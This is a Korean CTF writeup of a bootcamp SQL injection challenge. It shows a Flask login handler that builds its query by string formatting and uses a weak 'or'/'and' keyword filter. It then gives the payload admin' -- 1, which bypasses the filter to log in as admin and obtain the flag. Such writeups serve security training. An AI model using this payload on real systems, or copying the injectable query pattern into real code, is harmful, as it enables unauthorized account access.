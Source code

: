 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.1 SQLi_WAF_1"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-28T23:00:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10030/>

![3.1 SQLi WAF 1 1](/assets/images/writeup/web-hacking/knock-on/3-1_SQLi_WAF_1_1.png)

![3.1 SQLi WAF 1 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.1 SQLi WAF 1 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)


class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)


@app.route("/")
def home():
    return render_template("index.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")


@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)


if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

### login()

---

```python
filtering_list = ['or', 'and']
username = request.form["username"].lower()
password = request.form["password"].lower()

for filter in filtering_list :
    if (filter in username) or (filter in password):
        return render_template("login.html", error='no Hack!')
```

`username`과 `password`에 `filtering_list`에 있는 키워드들을 사용하면 로그인 시도가 차단됨 

또한 `OR`과 `AND`와 같이 대문자로 입력을 해도 모두 소문자로 바뀌어 필터링됨

`WAF(Web Application Firewall) Bypass`기법과 같이 보안 시스템을 우회하는 것처럼, 서버에서 정해놓은 `filtering_list`의 키워드들을 우회하여 SQL Injection을 시도해야 함

|

```python
if user and user[1] == "admin":
    return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
```

쿼리가 유효하고 admin으로 로그인 성공 시 화면에 flag가 출력됨

|

|

|

## 문제 풀이

1. `‘`를 입력하면 에러가 뜸 → SQL Injection 가능

2. admin으로 로그인 시도

    ```python
    admin' -- 1
    ```

`or`과 `and`를 사용할 필요도 없이 로그인 성공

|

|

|

## Exploit

```
username: admin' -- 1 

password: 1
```

|

|

### FLAG

---

```
K0{and_and_or_bypass!}
```

|

---